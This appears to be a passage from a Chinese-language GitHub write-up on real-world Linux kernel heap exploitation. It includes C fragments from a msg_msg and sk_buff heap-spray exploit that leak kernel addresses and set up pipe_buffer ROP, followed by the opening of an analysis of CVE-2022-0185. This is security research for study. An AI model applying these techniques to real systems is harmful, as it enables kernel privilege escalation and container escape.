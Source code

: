 然后释放 sk_buff 并再次堆喷 sk_buff ，此时伪造 msg_msg->next 为 B 的地址，从而泄露出 B2 的地址，由于 B2 和 A2 相邻所以可通过计算得到 A2 的地址.

```
  // Put kheap_addr at next to leak its content. Assumes zero bytes before
  // kheap_addr.
  printf("[*] Spraying fake secondary messages...\n");
  memset(secondary_buf, 0, sizeof(secondary_buf));
  build_msg_msg((void *)secondary_buf, 0x41414141, 0x42424242,
                sizeof(msg_fake.mtext), kheap_addr - MSG_MSGSEG_SIZE);
  if (spray_skbuff(ss, secondary_buf, sizeof(secondary_buf)) < 0)
    goto err_rmid;


```

得到 A2 的地址后，就再次释放 sk_buff 并堆喷 sk_buff，此时可以伪造出 msg_msg 中的 m_list，让其能够正常 unlink，然后通过 V 所在队列将其释放.

```
  // Put kheap_addr at m_list_next & m_list_prev so that list_del() is possible.
  printf("[*] Spraying fake secondary messages...\n");
  memset(secondary_buf, 0, sizeof(secondary_buf));
  build_msg_msg((void *)secondary_buf, kheap_addr, kheap_addr, 0, 0);
  if (spray_skbuff(ss, secondary_buf, sizeof(secondary_buf)) < 0)
    goto err_rmid;

  printf("[*] Freeing sk_buff data buffer...\n");
  if (read_msg(msqid[fake_idx], &msg_fake, sizeof(msg_fake), MTYPE_FAKE) < 0)
    goto err_rmid;


```

释放后堆喷 pipe_buffer，就能够让 pipe_buffer 和 sk_buff 在一个内存中.

[![](https://github.com/hac425xxx/heap-exploitation-in-real-world/raw/master/images/9.png)](/hac425xxx/heap-exploitation-in-real-world/blob/master/images/9.png)

然后读取 & 释放 sk_buff 的内容即可泄露出 pipe_buffer->ops，最后再次堆喷修改 pipe_buffer->ops 进行 ROP

**总结**

1.  可以根据 mtype 选择释放、读取特定的消息.
2.  msg_msg 的接收通过遍历 m_list.next ，然后匹配 m_type 完成.

[](#cve-2022-0185---winning-a-31337-bounty-after-pwning-ubuntu-and-escaping-googles-kctf-containers)[CVE-2022-0185 - Winning a $31337 Bounty after Pwning Ubuntu and Escaping Google's KCTF Containers](https://www.willsroot.io/2022/01/cve-2022-0185.html)
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

漏洞成因是由于整数溢出导致校验绕过，最终可以进行堆溢出，漏洞的条件如下：

*   vuln obj 的大小为 0x1000
*   溢出大小可控，由于漏洞的限制溢出数据 `\x00` 结尾
*   vuln obj 的分配和溢出的不同时进行

**堆布局**

由于 vuln obj 的分配和溢出的不同时进行，使用占位式布局，或者常规布局（先分配溢出对象在分配 target obj）均可，只是成功率的问题。
